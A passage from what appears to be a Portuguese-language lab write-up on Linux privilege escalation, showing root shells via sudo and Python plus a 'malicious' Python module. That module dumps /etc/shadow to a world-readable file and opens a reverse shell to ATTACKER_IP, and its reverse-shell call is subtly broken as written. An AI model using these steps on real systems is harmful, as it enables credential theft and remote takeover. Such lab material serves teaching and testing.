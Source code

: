 ### 3.5a Método 1: Escalação direta com `sudo su`

O método mais simples, mas "sem graça", seria:

```bash
vagrant@ubuntu:~$ sudo su -
root@ubuntu:~#
```

Porém, explorei o potencial do Python de forma mais interessante.

### 3.5b Método 2: Python RCE com `os.system()`

Identifiquei que python está disponível com permissão de sudo. Explorei o módulo `os` para ganhar controle total:

```bash
vagrant@ubuntu:~$ sudo python -c 'import os; os.system("/bin/sh")'
```

**Resultado obtido:**

```
# whoami
root

# id
uid=0(root) gid=0(root) groups=0(root)
```

**Explicação:** Ao invocar `/bin/sh` dentro do Python com permissões elevadas (sudo), obtive uma shell root com acesso completo. Python executa comandos do sistema mantendo os privilégios de sudo.

### 3.5c Método 3: Python com importação de módulos maliciosos

Uma abordagem mais sofisticada seria criar um módulo Python malicioso e importá-lo com sudo:

```bash
# Na máquina do atacante, criar módulo malicioso
cat > evil.py << 'EOF'
import os
import subprocess

# Executar comando com privilégios
os.system("cat /etc/shadow > /tmp/shadow_output.txt")
os.system("chmod 644 /tmp/shadow_output.txt")

# Ou abrir um reverse shell
subprocess.call(["bash", "-i", ">& /dev/tcp/ATTACKER_IP/PORT 0>&1"], shell=True)
EOF

# Transferir para o alvo
scp evil.py vagrant@192.168.56.3:/tmp/

# Executar no alvo com sudo
vagrant@ubuntu:~$ sudo python /tmp/evil.py
```
